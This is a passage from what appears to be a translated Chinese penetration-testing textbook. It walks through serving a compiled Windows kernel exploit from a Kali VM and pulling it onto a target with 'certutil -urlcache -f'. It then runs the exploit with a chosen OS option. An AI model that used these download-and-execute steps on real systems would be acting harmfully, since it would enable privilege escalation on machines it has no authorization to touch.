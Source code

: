 ## 运行内核利用程序

成功编译利用程序代码后，我们可以将编译好的二进制文件传输到目标系统，并根据利用程序文档中的说明执行。这可以通过按照以下程序进行：

1.  在这个特定的情况下，执行内核漏洞二进制文件是直接的，仅需要指定目标操作系统版本。在执行之前，我们需要将漏洞传输到目标系统。这可以通过在 Kali 虚拟机上启动一个本地 web 服务器并使用 `SimpleHTTPServer` Python 模块来完成：

    `sudo python -m SimpleHTTPServer 80`

1.  为了将二进制文件下载到目标系统，我们可以使用 `certutil` 工具。然而，在下载二进制文件之前，我们需要进入一个具有读写权限的目录。在这种情况下，我们将进入当前用户的桌面，如下图所示：![图 5.18 – 默认用户目录](img/B17389_05_018.jpg)

    图 5.18 – 默认用户目录

    我们现在可以使用 `certutil` 工具从 Kali 虚拟机将二进制文件下载到目标系统。可以通过在目标系统上运行以下命令来完成：

    `certutil -urlcache -f http://<KALI-VM>/exploit.exe exploit.exe`

1.  现在我们可以通过在目标系统上执行漏洞二进制文件来运行它，如下所示：

    `.\exploit.exe`

    前面命令的输出如下面的截图所示：

![图 5.19 – 漏洞选项](img/B17389_05_019.jpg)

图 5.19 – 漏洞选项

如*图 5.19*所示，利用此漏洞需要用户指定目标操作系统。可以通过以下选项执行漏洞来完成此操作：

`.\exploit.exe 7`
